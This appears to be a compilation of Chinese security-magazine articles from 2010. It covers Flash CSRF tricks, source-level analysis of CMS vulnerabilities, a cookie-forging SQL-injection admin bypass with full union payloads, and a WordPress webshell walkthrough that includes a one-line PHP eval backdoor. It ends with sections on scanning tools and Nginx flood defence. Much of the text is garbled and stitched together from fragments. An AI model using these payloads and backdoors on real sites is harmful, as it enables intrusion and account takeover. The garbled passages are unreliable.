在 AS2.0 中有两个函数（LoadMovie() 和 LoadMovieNum()），可以在加载 SWF 文件时，将 SWF、JPEG、GIF 或 PNG 文件加载到 Flash Player 中的影片剪辑中。

### LoadMovie(url:String, target:Object, [method:String]) : Void

url:String — 要加载的 SWF 文件或 JPEG 文件的绝对或相对 URL。若此时 URL 是路径名称，则相对的是当前 SWF 文件路径。

### loadMovieNum(url:String, level:Number, [method:String]) : Void

url:String — 要加载的 SWF 文件或 JPEG 文件的绝对或相对 URL；可用于指定要加载到指定层级的影片剪辑。Flash 下载这些资源时会将数据作为请求数据发送到远程服务器。

这两个函数都带有 method 参数，那么在 `allowNetworking="internal"` 时，Flash Player 是否会判断 URL 指向的是图片、Flash 影片，还是普通网页，并发送相应 GET/POST 数据包呢？

### 测试一

```txt
loadMovie() 应用，SWF 源文件：

var evil = "xsser";
loadMovie("1.html", "loader", "POST")

数据包：

Host=127.0.0.1
User-Agent=Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5
Accept=text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language=zh-cn,zh;q=0.5
Accept-Encoding=gzip,deflate
Accept-Charset=GB2312,utf-8;q=0.7
Keep-Alive=300
Connection=keep-alive
Cookie=SID=...
Referer=http://127.0.0.1/1.swf
Content-type=application/x-www-form-urlencoded
Content-length=10
POSTDATA=evil=xsser
```

```txt
loadMovieNum() 应用，SWF 源文件：

var evil = "xsser";
loadMovieNum("http://www.google.com", 2, "POST")

数据包：

Host=www.google.com
User-Agent=Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5
Accept=text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language=zh-cn,zh;q=0.5
Accept-Encoding=gzip,deflate
Accept-Charset=GB2312,utf-8;q=0.7
Keep-Alive=300
Connection=keep-alive
Cookie=SID=...
Referer=http://127.0.0.1/1.swf
Content-type=application/x-www-form-urlencoded
Content-length=10
POSTDATA=evil=xsser
```

可以看到，在请求外部站点时，会发送请求站点的 Cookie 和 Referer（SWF 文件地址）。

### 测试二

```txt
loadMovie() 应用，SWF 源文件：

var evil = "xsser";
loadMovie("http://www.google.com", "loader", "POST")

数据包：

Host=www.google.com
User-Agent=Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5
Accept=text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language=zh-cn,zh;q=0.5
Accept-Encoding=gzip,deflate
Accept-Charset=GB2312,utf-8;q=0.7
Keep-Alive=300
Connection=keep-alive
Cookie=SID=...
Referer=http://www.google.com/1.swf
Content-type=application/x-www-form-urlencoded
Content-length=10
POSTDATA=evil=xsser
```

```txt
loadMovieNum() 应用，SWF 源文件：

var evil = "xsser";
loadMovieNum("http://www.google.com", 2, "POST")

数据包：

Host=www.google.com
User-Agent=Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5
Accept=text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language=zh-cn,zh;q=0.5
Accept-Encoding=gzip,deflate
Accept-Charset=GB2312,utf-8;q=0.7
Keep-Alive=300
Connection=keep-alive
Cookie=SID=...
Referer=http://127.0.0.1/1.swf
Content-type=application/x-www-form-urlencoded
Content-length=10
POSTDATA=evil=xsser
```

可以看到，`allowNetworking="internal"` 的设置已经无法防御任意 CSRF。即使是 POST 型 CSRF，也可以用 LoadMovie() 和 LoadMovieNum() 函数绕过限制并提交数据。

但是很多站点都有防御 CSRF 的措施，一般是判断 Referer 是否是完整链 URL，或者添加 Token，或者在 crossdomain.xml 限制条件下读取内容，当然前提是 Referer 检测实现正确。

其中，XMLHttpRequest 的方法可以通过 CRLF 伪造 Referer。所谓 CRLF 就是插入换行符，从而在 HTTP Header 中伪造 Referer。

现在的问题是，如何构造一个特殊 URL，使得这个 URL 在 HTML 中可正常加载，而在 HTTP Header 中可以被截断后伪造出正常 Referer。

攻击思路：在不知情用户访问我们的博客时，恶意 SWF 文件先发出请求，偷偷盗用用户状态。接下来首先构造 SWF 文件，抓包并分析页面交互。

```txt
Referer=http://www.google.com/1.swf
@127.0.0.1,swf-
Content-type=application/x-www-form-urlencoded
Content-length=0
POSTDATA=evil-xss

Host=www.google.com
User-Agent=Mozilla/5.0 ...
Accept=text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language=zh-cn
Accept-Encoding=gzip,deflate
Accept-Charset=GB2312,utf-8;q=0.7,*;q=0.7
Keep-Alive=300
Connection=keep-alive
Cookie=SD=...
Referer=http://www.google.com/1.swf
```

```txt
var state = "CSRF";
loadMovieNum("http://www.kaixin001.com/state.swf", 1, "POST");
...
Host=www.kaixin001.com
User-Agent=Mozilla/5.0 ...
Accept=...
Cookie=...
Referer=http://www.kaixin001.com/home
Content-type=application/x-www-form-urlencoded
Content-length=9
POSTDATA=state=CSRF
```

由此看来，达成该类借道 CSRF 攻击的条件有三个：
- 服务器只进行 Referer 过滤，没有 Token 防护。
- 用户可以自定义载体 SWF 文件地址，并且服务器未对该 SWF 地址进行过滤。
- 用户可以在 HTML 中插入图像或可引入 Flash 播放器的内容，并且允许用户自定义 URL 地址。

那么，就可以利用以上漏洞，在 Firefox 环境下进行 CSRF。

#### lplvv2.0 漏洞分析

从本文可以学到：  
lplvv2.0 漏洞的原理分析

```vb
if trim(request_form["admin_log"]) = "ok" then
  ack=admin_chk()
  if ack then
    login_username=username
    call admin_event("成功登录到后台", 0, 0)
    call format_redirect("admin.asp")
  else
    login_username=username
    call admin_event("登录失败", 0, 0)
    response.write("<script language=javascript>alert('登录失败！')\n请稍候重试......</script>")
    history_back()
  end if
else
  call admin_login()
end if
```

```vb
logins=trim(request_form["login"])
username=trim(username)
...
admin_chk=false
if admin_passwords() then
  if var_null(passwords) then exit function
  if lr_md5(passwords, "short")<>admin_passwords then exit function
  end if
  if val_chk("admin")=false then exit function
  if symbol_name(username)=false or symbol_ok(password)=false then exit function
  if founder("...") then
    password=r_md5(password,"short")
    sql="select top 1 password from user_data where username='"&username&"' and password='"&password&"'"
    rs=execute(sql)
    if rs.eof then
      exit function
    end if
    if login=true then
      response.cookies("login_username")=username
      response.cookies("login_password")=encrypt(password)
      response.cookies("is_admin")="yes"
      response.cookies("expires")=date-365
      session("session_for")="admin"
      session("session_for2")="admin"
      session("session_for3")="popoem"
      rs.close
    end if
    admin_chk=true
  end if
end function
```

```vb
function admin_chk()
  admin=user_name
  dim username,password,founder,rs,sql,id,power_hidden,passwords,logins
  username=code_admin("username",1,20)
  password=code_admin("password",1,20)
  passwords=trim(request.form("passwords"))
```

```vb
code_admin() 函数代码如下：
function code_admin(strs,at,cut)
  dim str
  a=trim(strs)
  select case len(at)
```

## 2010 第一季 新闻杂综看 | Middle-Level

#### PHPCMS 整站系统 0day 漏洞

- 从本文可以学到：
  - PHPCMS 整站系统 0day 漏洞分析
  - 漏洞的利用

```php
include './include/common.inc.php';
include './include/global.func.php';
$lang = include './lang/zh/lang.inc';
if (preg_match('/mozilla|msie|opera|wapi|openwebwaf/i', $_SERVER['HTTP_USER_AGENT'])) {
    // 这里会过滤内容，并且可以伪造 HTTP_USER_AGENT 逃过 header['location']
    header('location: ...');
}

$action = isset($_GET['saction']) ? $_GET['saction'] : 'index';
if (!isset($action)) {
    include './include/'.$action.'.inc.php';
}
```

本文要解析的是一个名为 `phpcms2008SP3_gbk_20100125` 的版本，漏洞出现在线上环境中较常见的 wap 模块，打开 wap 文件夹下的 `index.php` 文件，先看看代码。

经过一番查找，发现每个后台文件都存在这样一段代码：通过 `include file="inc/admin.onlogin.asp"` 的方式进行 session 验证。下面再看另一个页面 `list.asp`，代码如下：

```asp
sub cid_isid()
    cid = trim(request.querystring('c_id'))
    sid = trim(request.querystring('s_id'))
    if not (isnumeric(cid)) and len(cid)>0 then cid=0
    if not (isnumeric(sid)) and len(sid)>5 then sid=0
    sid=cin(sid)
    cid=cin(cid)
end sub
```

这里就有两个漏洞：一个是“在在线修改”中“在订单”与“栏目页”等页面之间的跳转过滤不严，另一个是 `include` 中的参数可控造成的文件包含问题。

后续继续利用 `inc.php` 相关逻辑可以构造出包含任意文件的路径，最终达到代码执行或信息泄露的效果。

```asp
server_v1=request.servervariables('http_referer')
server_v2=request.servervariables('server_name')
if server_v1<>'' then
    mid(server_v1, 1, len(server_v2))=server_v2
    server_v2='http://'&server_v2
    if left(server_v1,len(server_v2))=server_v2 then
        post_chk=true
    end if
end if
post_chk=false
end function

function chk()
    chk=false
    if trim(request.form('chk'))='yes' then
        chk=post_chk()
    end if
end function
```


好了，分析到这里可以看到，攻击者可以利用过滤不严和文件包含问题构造出 webshell，或者进一步实现跨站与权限控制绕过。

文 By Kid@广寒轩

### 挖掘 PHP 整站程序漏洞的一些思路和经验

- 从本文可以学到：
  - 挖掘 PHP 整站程序的思路和经验
  - 一些小技巧

今天要一块分享的是挖掘 PHP 整站程序漏洞的一些思路，这里就拿 phpcms2007 这款（文章目录 20080711）来说明。

#### Bug->1

漏洞出现在安装脚本文件 `install.php`，关键代码在 217 行 `file_put_contents(PHPCMS_ROOT.'/data/install/phpcms/phpcms.php', phpCMS_encode($serialize($user), 'uninstall');` 以及 473 行 `unlink(PHPCMS_ROOT.'/data/install/phpcms/phpcms.php');`。

大家可以按照以上这个思路去找找看有没有设计这个文件夹，答案是没有的。`phpcms.php` 是在 `uninstall.php` 里面定义的。这里应该是程序员疏忽，应该在 217 行建立这样的 `phpcms.php`，这里的作用是为了最后的安装后的安装模块是读取它的。很多时候由于缓存的关系，删掉后可能会继续存在等严重状态，导入引出成型。

#### Bug->2

```asp
include_once PHPCMS_ROOT.'./include/updel_class.php';
$tmp = PHPCMS_ROOT.'../.src'.$PHPCMS['sitename'].'/.'.$dirname.'/';
$dir_url = $PHPCMS['uploadurl'].'/'.$date['Ym'];
DirCreate($upolddir);
```

我们的目的，是利用 `DirCreate($uploaddir)`，`$uploaddir` 是未初始化的，这样便到了因为可视对象上去。

#### Bug->3

这个是 0day 漏洞，phpcms2008SP3-20100125 版本中还存在，漏洞出现在 `copyright\process.php`，关键代码如下：

编辑点评：PHPCMS 站点系统的 0day 漏洞存在概率不低，可利用的攻击面广泛，甚至涉及前台、后台程序的更新，值得进一步推测与关注。

#### 维普信息资源系统漏洞

- 从本文可以学到：
  - 维普信息资源系统漏洞分析

维普信息资源系统是重庆维普资讯旗下的一款提供中文期刊检索服务的系统，相关信息，包括文章、期刊论文、学位论文等，很多分布在多家学术图书馆、公共图书馆与网络中，基本上都存在这种系统，缺少开放接口。

### 2010 第一季 新闻练练看 | Middle-Level


型的最大长度，defaultvalue（默认值）。执行之后如图 7，表明成功。现在查看表 `phpcms_member_cache`，可以发现如图 8。最后上传 `recoverCache.php` 到 phpcms 的 `phpcms_member_cache` 表，如图 9，运行成功。再看看 `phpcms_member_cache`，如图 10。

下面来看最通用的做法。最简单的做法也是先用 `switch($action)` 语句，毕竟要往里面包含的文件就可以了。修改后的代码如下（PS：代码改动不大，主要都是一些思路问题的调整）。

```php
<?php
include './include/common.inc.php';
include './include/global.func.php';
include './include/var.inc.php';
if (!is_file($www)) {
    header('location: /');
}

$section = isset($action) && empty($section) ? $action : 'index';
switch ($action) {
    case 'index':
        include './include/index.inc.php';
        break;
    case 'list':
        include './include/list.inc.php';
        break;
    case 'show_info':
        include './include/show_info.inc.php';
        break;
    case 'show_news':
        include './include/show_news.inc.php';
        break;
}
?>
```

接下来就找到更改文件路径，首先找到 `field_delete.inc.php` 删除 `password` 字段，然后修改 `field_add.inc.php` 添加一个默认值为 admin 的 MD5 值的 `password` 字段，这样新增字段时不会再把 `password` 归空了（版本问题？）。不过最后还是可以把 `phpcms_member` 重新复制到 `phpcms_member_cache` 表中的。

实现是检验思路的第一标准，我们来操作一下。具体用的是 `phpcms 2008sp3_gbk_091230`，针对过程如图所示。首先运行 `drop_cache_password.bat` 删除密码字段，相关文件有 `drop.txt`（如图 3），该文件执行了删除操作（包含的文件名），`tablename`（表的名称）、`field`（字段），然后回到了如图 4 的状态，可以照常使用 `add_cache_password.bat` 增加 `password` 字段。相关文件有 `add_cache_password.bat`（如图 5）和 `add.txt`（如图 6）。

最后，大家要是有兴趣可以挖掘更加完美的利用方法。我只是想证明这个漏洞的严重性，所以就不去继续挖掘更好的方法了。

#### 基于 SQL 控制查询结果在 Web 漏洞挖掘中的应用

- 从本文可以学到：
  - 渗透 SQL 过滤不严格的漏洞
  - 实战渗透

### 一、代码分析

在渗透某一个大站时，其分站中有一个小系统，系统名为金缘维德文文章系统（某某人修改版）。该系统以前也有不少漏洞，但是这里的系统已经被某某人改得很久了，所以已经公开的漏洞很难再找到。为得到大站的权限，不得不分析一下它的代码。漏洞文件为 `textbox.asp`，其关键代码如下：

```asp
<!--#include file=common.asp -->
<!--#include file=include/config.asp -->
<!--#include file=admin/chkuser.asp -->
<%
Dim action,newsID,s,Content
action=LCase(Request.QueryString("Action"))
newsID=CInt(Request.QueryString("newsID"))
If request("action")="modify" Then
    set rs=server.createobject("adodb.recordset")
    rs.open sql,conn,1,3
    if rs.bof or rs.eof then
        Response.Write Content
    End if
End if
%>
```

以上代码中有 `newsid` 的值来作为检索过程输入查询，很明显存在注入漏洞。但是由于通过包含 admin 目录下的 `chkuser.asp` 文件，强制用户先进行管理员权限，如果不是管理员权限，无法执行此代码。

声明：以上代码中 `newsid` 的值来作为检索过程输入查询，很明显存在注入漏洞，但是由于包含 admin 目录下的 `chkuser.asp` 文件，强制用户先进行管理员权限，如果不是管理员权限，无法执行此代码。

```asp
<%
If not(Request.cookies("KEY")="super" or Request.cookies("KEY")="chork" or Request.cookies("KEY")<>"ypost") Then
    response.redirect("login.asp")
    response.end
End If
set usr=server.createobject("adodb.recordset")
if Request.cookies("KEY")="super" then
    sql="select * from admin where username='"&Request.cookies("username")&"'"
    usr.open sql,conn,1,3
    if usr.bof or usr.eof then
        response.redirect("login.asp")
        response.end
    end if
end if
If request.cookies("passwd")<>usr("passwd") Then
    response.redirect("login.asp")
    response.end
End if
usr.close
set usr=nothing
%>
```

接着看 `chkuser.asp` 在这里设下了一个拦路虎，校验它在做了一个总密码为 cert 的情况。那么，有帐号是否可以直接访问呢？于是检查 cookie 的值，发现还有另一个关键点在于 `key` 的值必须为 `super` 才能继续下面的流程。其次，当请求被拒绝后，返回到 `login.asp` 页面，同时把 cookie 的 `username` 和 `passwd` 也需要带上。

最后，这个系统的设计只会对两个，不而且许多服务器权限级的巨大站，大都在用户访问信息中的分站口令下了。务必先通过数据库表的内容来观察访问系统。

```asp
<%
if not request.cookies("KEY")="super" or request.cookies("KEY")="chork" or request.cookies("KEY")<>"ypost" then
    response.redirect("login.asp")
    response.end
end if
if request.cookies("KEY")="super" then
    sql="select * from admin where username='"&request.cookies("username")&"'"
    usr.open sql,conn,1,3
    if usr.bof or usr.eof then
        response.redirect("login.asp")
        response.end
    end if
end if
if request.cookies("passwd")<>usr("passwd") then
    response.redirect("login.asp")
    response.end
end if
usr.close
set usr=nothing
%>
```

在这段代码中，如果 cookie 中的 KEY 值有三种方式之一，则可以登录。如果 KEY 值为空，登录不了；若是超级用户，仍会检查 admin 表中的 username，且 cookie 的 passwd 也需要匹配。

打开 index.asp 文件，里面包含了两个文件，如图 2，var.asp 是存放用户信息文件，login.asp 则是登录处理页面，出现问题的关键代码如下：


这样一个很明显的 SQL 注入漏洞就形成了，但是在这里是殊不知表单记录的，所必然导致他无法登录。请接着看第二处注入，漏洞发生在 `getSignQuestion.asp` 文件，代码如下：

假如有表 `admin(id value(1), username value('admin'), passwd value('123456'), ...)` ，包含字段有 id、username、passwd，假设其中一条记录的字段值对应如下：

`select username,passwd from admin where id=1`

返回的记录集中 username 的字段值为 admin，但是如果我们执行：

`select username,passwd from admin where id=1 and 1=2 union select 'fucker' as username, passwd from admin where id=1`

这时返回的记录集中 username 的字段值不再是 admin，而是变成了 fucker（改写字段了不是么）。而示例数据库中的 username 值并没有改变，只是在查询时我们用 union 把它替换了出来。

### 二、绕过方法

下面我们来一一分析这些方法，同时引用到的 `'` 号代表所有字段。因为我们用到 union 查询，所以下面将要有表 admin 具有三个字段，以便在构造语句时匹配前面的字段数。

打开数据库后将得到一个 28 个字符。下面先在浏览器打开页面 `http://localhost/my/admin/index.php` ，输入用户名密码，利用刚才的思路构造如下语句：

第一步，在 IE 地址栏输入：`javascript:alert(document.cookie='KEY='+escape('super'))`，回车后即可把 cookie 中 KEY 的值设置为 super。

第二步，再次输入：`javascript:alert(document.cookie='passwd='+escape('49b59abbe56e057'))`，即可把 cookie 中 passwd 的值设置为 49b59abbe56e057（这里的值是根据 md5 值，后来得来）。

第三步，再输入：`javascript:alert(document.cookie='username='+escape("admin' and 1=2 union select 1, username, '49b59abbe56e057' as passwd, 4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27 from admin where username='admin"))`，回车后即可把 cookie 中的 username 值也设置为对应的值。

通过前面三步设置的 cookie，这样把字段记录中的 passwd 字段的值就被我们改成了 123456 的 md5 值，即 49b59abbe56e057。这样就通过 cookie 之值成功实现了对后台的利用方法。

### 三、实战突破

既然前面的挖掘完成了，下面来看看实际的利用。


首先，输入 `http://127.0.0.1/cy/textbox.asp?action=modify&newsid=23` ，这里 newsid 的具体值可以先用 `1=2` 进行盲注判断。

接着输入 `http://127.0.0.1/cy/textbox.asp?action=modify&newsid=23 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27 from admin where id=1`；然后回车返回用户名。

分别用 username 和 passwd 变换 9，在 IE 地址输入：
`http://127.0.0.1/cy/textbox.asp?action=modify&newsid=23 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27 from admin where username='admin' and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27 from admin where passwd='...'`

于是修改完毕。

### 四、后记

其实以上原理在国内黑客中大家都很有兴趣，包括前人写过的文章、一些新思路等。本文主要讨论了绕过、技巧、实现等方面的内容。

## php 杂谈 — WordPress、PHPBB 等漏洞分析

- 从本文可以学到：
  - 常见 PHP 系统的漏洞分析
  - 漏洞的原理探析和分析

### 一、PHPBB 版本小于 2.0.3 的路径遍历

## 中级｜新词练练看

### 2010 第一季

这是在 foreach 循环，用来将关键字把 PHP 内置变量 $_GET 传给 $sql_get（数组），接下来对 3 个判断表达式执行 OR 逻辑运算符，只要 $sql_get 变量的每一个值有一个符合 select、union、% ，那么在最后的 or 运算后，使得返回值为 1，这样就可以将系统绕过；然后使用 $this（对象）的 error 函数回显错误并终止执行。

这里确实没多大问题，主要问题是你居然把这个定义改成了 error 函数。我认为接下去有：

http://www.[xxxx].com/path/index.php?page=new_topic&index=1&id=union

那么程序运行到 error 函数时就会出错：

```text
error
Fatal error: Call to undefined method PseudoRBacCatalogerror::error() in /home/xxx/public_html/vb/common.php on line 193
```

## 二、PHPBB3 提权漏洞［另类注入］

这种漏洞看似像被做掉了，也是老外发现的，也可以说是注入，也可以说成是逻辑判断。有点“似是而非”，所以在提权这儿也有“提权漏洞”。

首先给大家说明一下这种漏洞的一个很重要的条件：存放管理员数据的表最好和用户的表相同，并且采用两者特征数据值的方法辨别用户身份。

没想到的用户可能不太明白，举一个我们比较熟悉的 BBSXP 的例子吧，它就是采用这种方法的。在表 bbsxp_users 中的 UserRoleID 就是它的特征数据列，若某一个在 BBSXP 论坛上的用户的 UserRoleID 是 1 的话，其系统就会执行其管理员权限的操作。

漏洞文件 ucp.php 的部分代码如下：

```php
switch ($mode)
{
    ...
    case 'restore_perm':
        if ($user->data['user_perm_from'] || $auth->acl_get('a_switchperm'))
            redirect(append_sid("{$phpbb_root_path}index.$phpEx"));

        $auth->acl_cache($user->data);
        $sql = 'UPDATE ' . USERS_TABLE . '
                SET user_perm_from = 0, user_style = user_style_style
                WHERE user_id = ' . $user->data['user_id'];
        $db->sql_query($sql);
        $result = $db->sql_query($sql);
        $db->sql_freeresult($result);
        add_log('admin', 'LOG_ACL_RESTORE_PERMISSIONS', $username);
        $message = $user->lang['PERMISSIONS_RESTORED'] . '<br /><br />' . sprintf(
            $user->lang['RETURN_INDEX'], '<a href="' . append_sid("{$phpbb_root_path}index.$phpEx") . '">' . $user->lang['RETURN_INDEX_LINK'] . '</a>');
        trigger_error($message);
        break;
}
```

上面 $user_style 便是在拼接 SQL 语句后交到数据库查询，我们这样如下：

```text
ucp.php?mode=restore_permissions&style=$user_type=3;user_permissions=...;
```

## 三、WordPress 上传漏洞

文件 wp-admin/includes/file.php 的相关代码如下：

## WordPress 拿 WebShell

WordPress 是世界上用得最多的一款 blog，可以说是世界流行。在前段时间，爆出有一个任意文件漏洞，但由于时间很短，就没有进行测试。最近突然想到一个 WordPress 的 blog，实际测试效果不大，下面将整个过程记录出来跟朋友分享。

WordPress 后台位置一般为：http://www.xxx.com/blog/wp-admin，显示页面如图 1 所示，输入正确的用户名和密码后顺利登录，返回图 2 所示。

- 一、获取管理员用户名和密码  
关于如何获取管理员用户名和密码不在本文的主要讨论范围，笔者有两点经验，一个是社工，另外一个就是已有信息的利用。在获取 WebShell 的情况下，利用对有价值的信息进行处理，可以更高效地获取 WordPress 后台管理员密码。

- 二、寻找上传处  
在 WordPress 管理页面的左边单击“媒体”一项，接着会出来一个上传界面，在该界面中选择“浏览”选中上传的文件，如图 3 所示，找到路径中的 php 的 WebShell 上传。

- 三、浏览上传记录  
上传 WebShell 后，有些系统会有杀软软件，会搜索部分 WebShell，因此需要通过浏览记录来验证文件是否上传成功。

- 四、获取 WebShell 的直接地址  
将鼠标移动到上传 WebShell 的记录上，可以看到有一个按钮“编辑”“删除”和“查看”。点击“查看”即可看到 WebShell 的具体页面，如图 5 所示。选择记录中的链接，该链接地址即为真正的 WebShell 地址。

- 五、获取 WebShell  
直接找到上传 WebShell 的地址，输入密码验证成功后，进入熟悉的 WebShell 页面，如图 6 所示，至此拿到了 WordPress 的 WebShell。

- 六、其他方法获取 WebShell 的探讨  
通过访问得到的路径，经过 cnbird 提供的一个方法，不过我测试后不能获取 WebShell，不知是哪个原因，现将其作为方法参考。


## 中级｜安全防御

### 2010 第一季

- 1. 进入后台。
- 2. 单击“外观”→“编辑”→“404 模板”，插入一句话木马程序代码：`<?php eval($_REQUEST[c]);?>`。如图 7 所示，插入后进行更新。
- 3. 使用连接地址：`wordpress/wp-content/themes/default/404.php` 进行挂马，结果没有反应，很是郁闷。

编辑思路：WordPress 的用户群并不是一般的多，其安全性也是非常不错的，本文的利用对象是具备某一个小型 WordPress 的管理员账号可以访问的网站，这个条件可忽略，不良度可以调为较大。等到会在夏天吗？如果一开始未能抵达，webshell 只是一支。

黑客语：在“提问”或者“访问”的今天，各位再一次开始转变了，网络世界，作为白帽，转播到了您身边。各位同学们在大夫的日子里，这是一场真实的修炼。它总有个人又很低调地告诉你，看到网络世界充满了变化，你会被现学现用。这样的感悟总应该，webshell 只要进攻。

## 初步了解：网络安全防御（上）

gxm｜BST&AT&上德岛学院

一次与“黑手”光临编辑器初期网络安全，我很机缘地回答了“有事莫忘，针对网站攻击来破解比较安全”，并针对各类日志事件来检测，以此做到安全。若说把网络安全专家看待为大人等，实际上实现有个完整系统不是呢？对于一个较古老的数据，在服务器中，服务器必须运行服务，服务器上也一定要危险。这也很少被认为是 webshell。

## 一、安全防御体系

每个网站安全公司的安全防御模式不一样，并且结合了安全服务意识，主要是：安全评估、安全加固、网络安全威胁预警等。


（Safety assessment）安全评估与安全分析，分成个人与行业两种，我发掘一个具有攻击能力的运行系统中有的缺陷并发现。为一些有完整运行的系统进行分析与评估，以求改进，以提高安全。文中此图示意了安全防御体系的结构。

少服务，我们就要检测更多服务，以防检测出是否有漏洞的存在，不能漏掉一个。

### 2010 第一季

## 安全防御｜Middle-Level

标准工具，它能分析检测每个页面，以及对能检参数的地方进行尝试设计！

什么是准确？即一小时前扫描出 4 个漏洞，过了一会是 3 个，一会是 1 个、4 个，最后是 1 个。

## 二、系统安全检查

一般来讲，安全公司提供安全服务时，针对的总是用户程序或……


看见那个 name 为 gxgm 的没？哈哈，等会，扫描结果马上就好。status 状态为 complete 的时候，我们双击那个 gxgm 来到一个界面，如图 8。

这里的 total 表示总数，high 表示高危漏洞，Medium 就是中等，low 就是低，Open port 就是开放的服务端口。

之后点击下载的 download report，选择 html 格式，点击接受，它会自动生成一张 html 格式的漏洞信息反馈，如图 9。

报告中提示为 high 危急漏洞信息，也就是说 snmp 默认团体名称，还是能得到对方远程系统的一些信息。


各网络环境。在这里无时无刻提醒下，各大安全公司会有安全服务不同，唯一肯定的是有些分类比较明确。本来请各位朋友确认安全评估总共分三大类，非此！


我们以应用程序来讲，在检查系统安全时，一般的网络安全公司会用 nessus 这款世界排名第一的扫描器作为首选，或者用自己的产品。


为了节约时间，初步给大家介绍下这款软件，它是 B/S 模式。如果你有服务器，可以在服务器上安装 nessus server，然后更新插件，之后启动服务，最好以 HTTPS 方式连接 8834 端口。

然后点击图 4 上方的 Scans，点击 ADD 按钮，来到如图 5 的扫描界面。

此时让我们稍微看下鼠标，这个漏洞可以用 X-SCAN 扫描得到 snmp，利用默认密码得到信息。

打开 X-scan，扫描目标，在全局设置的扫描模块中只勾选 snmp 信息，如图 10。

在检测范围里填上服务器的 IP 地址，点击确定，约 1 分钟，就得到 Windows 主机的信息，如图 11、12。


写到这里，落书识读，读者可根据自己的安装软件，研究安装。

接着输入扫描信息：

```text
name 随便，尽量一个标识。
scan targets，是扫描的目标，可以是 hostname 或 IP 地址。
Targets file，最好为空，不建议选择。
```

然后点击左面的服务器给大家演示，输入信息后，点击右下角的 launch scan，如图 6。

然后点击 reports，就可以看到已经在扫描了，如图 7。


## 中级｜安全防御

### 2010 第一季

### 三、WEB 脚本安全检测

本小段开头，本来继续接着信息。不同的安全公司提供的安全服务、理念也不同，仿佛要讲一个模块，就应该定义其安全评估。何况，我拿的是安全伴侣研修，得从纵向来说，比如金融科技的标准安全评估流程如下。

由于是自动化扫描可利用的漏洞，WVS 掌握漏洞利用产品和客户定制服务（包括许多像 JavaScript 那样的服务器端漏洞），是一个强大的解决方案。

当然，还有 IBM 的 Rational AppScan、HP 的 WebInspect 等。总而言之，WVS 比较可取，较 pangolin 更出色，因为它能检测到一些基于 Web 的安全漏洞，甚至可以通过 HTTP/HTTPS 的 Web 站点。

除了自动化扫描可利用的漏洞，WVS 还会利用所发现漏洞的应用和客户定制服务（包括多种语言和 JavaScript 脚本），形成一个综合性的安全分析平台。

我们这里以 6.5 版为例子来做扫描使用，依次选择“file”→“new”→“web site scan”，在 website URL 中输入要扫描的站点 URL，如图 17。

随后我们会看到它在扫描服务器 WEB 信息。

nessus 最好安装在 C 盘，打开后我们需要注册，这里我注册 home free 版，输入邮箱里面返回的注册码，点下 update plugins，然后把已经注册的插件继续更新，之后 start nessus server，点击 manage user 后点两个号，输入账号，如图 13。

然后点 Save 后再点 Close。好了，我们打开安装的那个 client，其实它之前就打开了本地 8834 端口，之后输入我们刚刚得到的账号、密码，打开主界面，如图 14。

点击上面的 Policies（策略），再点击 ADD，之后输入 policy name，即策略的名字，访问认证，选择 Credentials 设定，NEXT，一直到设置完，建立好策略，点击 save，完成以后我们就可以看到如图 15。

安全检测。刚才我找到了我们用 WVS（即 Acunetix Web Vulnerability Scanner）来检测网站的目的是为了测试，还借用一个机器人的服务器，所以，网站访问信息、认证配置等等都可以在这里进行设置。

图 10  
图 11  
图 12  
图 13  
图 14  
图 15  
图 16  
图 17  
图 18


下面我们来看一下前面 WebInspect 7.7.7 安装，并打开界面开始扫描。然后选择免费的网站地址，继续点击 next 直到出现页面，然后输入站点名。之后点击 finish，系统便会去配置 SQL 服务器。我们没有，直到它连接，来测出来，如图 21。依次选择“file”——“new”——“website scan”，最后得到的便是这样。这个东西安装其实非常有道理。

在这里希望大家记住：每套模式对应一套方案。

## 五、总结

整篇文章写下来，理论比实际操作要多，因为安全是个大学问。作为菜鸟，我们不应过度追求技巧。首先要看风险，再考虑成本，才能把安全漏洞深入处理，这样才是大器。

本章节的重点是怎样令企业环境中的安全审计行为，不只是考验网络安全公司提供的安全评估，还要做到不遗漏。毕竟这个“保镖”很难在二线规则下把路由维持到稳定。只是想告诉大家这项安全评估，内里要引出的，是网络系统安全，并不是指最复杂的那套软件；一些最基本的安全需求，保证安全策略持续维护，才能持续下去。

后面讲讲 mickey、miao、空气、葡萄牙、梨子、童童、Axmicking 等助力！我是来自渝创时代，红利网安团队的 gkcm，谢谢大家的分享。

#### Nginx 下防御 HTTP GET FLOOD

Nginx 是一款轻量级的 Web 服务器，由俄罗斯的程序设计师 Igor Sysoev 所开发，最初供俄罗斯大型门户网站及搜索引擎 Rambler 使用，其特点是占用内存少，性能优越。

Nginx 虽然可以比 Apache 处理更大的连接数，但是 HTTP GET FLOOD 针对的不仅仅是 WEB 服务器，还有数据库服务器。大量 HTTP 请求产生的数据可以在几秒之内使数据库压力过高，系统被拖垮，最终导致服务器宕机。

和“worker_connections 1024”配合时，这台服务端支持的最大连接数就是 10×1024=10240。

- worker_processes 10;
- events {
  - use epoll;
  - worker_connections 1024;
  }

Nginx 0.7 提供了 2 个限制用户连接的模块：NginxHttpLimitZoneModule 和 NginxHttpLimitReqModule。NginxHttpLimitZoneModule 可以根据条件进行并发连接数控制，例如可以定义以下代码：

```nginx
http {
    limit_zone my_zone $binary_remote_addr 10m;
    server {
